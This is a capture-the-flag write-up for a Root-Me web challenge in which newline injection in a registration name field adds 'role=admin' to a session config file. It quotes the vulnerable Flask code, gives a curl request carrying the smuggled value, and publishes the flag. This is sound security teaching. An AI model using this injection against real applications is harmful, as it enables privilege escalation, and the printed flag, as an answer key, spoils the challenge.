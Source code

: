 # New New Always New (day15)
<p align="justify">This challenge was a Web challenge in which we had to get admin access to read the flag. The source code(python server) was available to downlaod on the challenge site and is attached to  this repo.</p>

<p align="center"><img src="Screenshots/S3.png" alt="Desc"></p>

<p align="justify">Looking at the source code it appeared that the flag was exposed in the admin section (available under app.py in this repo). Besides, the session and access were managed thanks to uuid generated when user register on the server. Below the function that handles the user registration, generating a config file based on a uuid and writing user information into the config file : </p>

````python
def create_session(email, name, role):
    session_id = str(uuid.uuid4())
    session_file = os.path.join(SESSION_DIR, f'session_{session_id}.conf')

    with open(session_file, 'w') as f:
        f.write(f'email={email}\n')
        f.write(f'role={role}\n')
        f.write(f'name={name}\n')

    return session_id
````
<p align="justify">Below is the route used through POST request to register a user on the server. It appeared that the input provided wasn't cleared or processed before being sent through server , meaning it could possibly be exploited for injection. </p>

````python
@app.route('/register', methods=['POST'])
def register():
    email = request.json.get('email')
    name = request.json.get('name')
    password = request.json.get('password')

    password_hash = generate_password_hash(password)

    user = User(email=email, name=name, role='user', password_hash=password_hash)
    db.session.add(user)
    db.session.commit()

    return jsonify(success="User registered successfully"), 201
````
<p align="justify">Hence what I've tried was to add a line with 'role=admin' in my file by giving the username Axel2\nrole=admin. Considering that the content of the config file wasn't checked (number of line for instance), I was expecting server to use the last line to set my role. As a result, after the injection the overwritten config file was expected to be something like : </p>

````text
emain=xxxxx
role=user
name=axel
role=admin
````

````bash
curl -k -X POST https://day15.challenges.xmas.root-me.org/register -H "Content-Type: application/json" -d '{"email": "user@example.com","name": "Axel2\nrole=admin","password": "azerty"}'
````

<p align="justify"> After I registered my user , I logged In and retreived my access token generated. To get sure that my role was 'admin' I use the 'Dashboard', designed to display informations about user session. The exploited did worked well because I was granted admin role : </p>

<p align="center"><img src="Screenshots/S1.png" alt="Desc"></p>

<p align="justify">Finaly, I accessed the admin section and go the flag : </p>

<p align="center"><img src="Screenshots/S2.png" alt="Desc"></p>

Flag : _RM{I_Thought_Th1s_VUlnerability_W4s_N0t_Imp0rtant}_, thanks _Elweth_ for this challenge !

 
